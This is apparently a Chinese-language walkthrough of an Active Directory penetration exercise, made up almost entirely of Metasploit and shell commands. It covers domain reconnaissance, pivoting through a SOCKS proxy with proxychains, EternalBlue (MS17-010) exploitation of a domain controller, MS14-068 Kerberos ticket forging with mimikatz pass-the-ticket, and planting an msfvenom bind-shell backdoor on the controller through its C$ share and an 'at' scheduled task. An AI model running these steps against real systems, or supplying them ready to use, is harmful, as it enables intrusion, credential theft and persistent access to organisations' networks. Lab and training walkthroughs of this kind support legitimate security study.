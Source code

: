## 是否在域内和找域控位置

1. `run post/windows/gather/enum_domain `定位域控
2. `shell`
3. `chcp 65001`
4. `ipconfig /all`Ip 信息
5. `arp -a`查看一些有关联的ip 地址
6. `netstat -ano`查看端口
7. `ping dc`

## 域内主机分析和整理

1. `run post/windows/gather/enum_logged_on_users`登陆过的用户和他的sid，做票据需要用到
2. `net view /domain`查看有几个域
3. `net view /domain:hackbox`，hackbox域内有几个主机
4. `net group /domain`查看工作组信息

## 开启代理扫描

1. `use auxiliary/server/socks4a`设置本地代理模块
2. `run`就是放到后台了
3. `jobs`关掉就jobs -k
4. 代理开启了，接着做路由`sessions -i 1`
5. `run autoroute -s 10.10.10.0/24`添加一条通向目标服务器内网的路由
6. 另开一个终端，修改配置文件，`vi /etc/proxychains.conf`
7. 对域控进行端口扫描`proxychains nmap -sT -Pn 10.10.10.149`

## 永恒之蓝ms17_010 利用

1. `use exploit/windows/smb/ms17_010_eternalblue`
2. `set rhosts 10.10.10.149`
3. `set payload generic/shell_bind_tcp`
4. `exploit`

## Ms14-068

1. `run post/windows/manage/enable_rdp`开启web服务器3389
2. `rdesktop 192.168.211.13`远程连接
3. 上传ms14-068.exe
4. `ms14-068.exe -u 用户名@hackbox.com -s S-1-5-21-2005268815-658469957-1189185684-1103 -d IP -p 密码`生成.ccache文件
5. 上传mimikatz
6. 运行mimikatz，`kerberos::purge`清理票据
7. `kerberos::ptc TGT_web@hackbox.com.ccache`导入生成的票据
8. 回到kail打开shell，`dir \\dc\c$`验证结果

## 生成正向攻击载荷获取域控系统权限

1. 生成一个正向的后门`msfvenom -p windows/meterpreter/bind_tcp lport=8444 -f exe -o d.exe`
2. 先上传到web`meterpreter>upload d.exe C:/phpstudy_pro/WWW/www.webhack123.com/`
3. `copy d.exe \\dc\c$\d.exe` 把d.exe 复制到dc 里面
4. `at \\dc 18:56:00 c:/d.exe` 设定时间让系统去执行。
5. `use exploit/multi/handler` 使用这个模块
6. `set payload windows/meterpreter/bind_tcp`
7. `set lport 8444`
8. `set rhost 10.10.10.149`
9. `exploit`
